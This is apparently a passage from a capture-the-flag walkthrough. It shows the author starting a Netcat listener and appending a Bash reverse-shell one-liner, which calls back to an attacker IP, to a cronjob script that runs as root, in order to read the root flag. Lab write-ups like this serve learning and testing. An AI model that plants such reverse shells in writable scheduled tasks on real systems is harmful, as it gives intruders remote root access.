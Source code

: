 Time to [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) this! I start with setting up my [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener and then I add a [Bash](../../3%20-%20Tags/Hacking%20Concepts/Bash.md) [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) (from pentestmonkeys) to the cronjob file:

```Kali
nc -lvnp 1234         
listening on [any] 1234 ..
```

```
boring@kral4-PC:/var/www$ echo "bash -i >& /dev/tcp/10.8.162.183:1234 0>&1" >> .mysecretcronjob.sh
```

and we cat the root flag.

Pwned !!
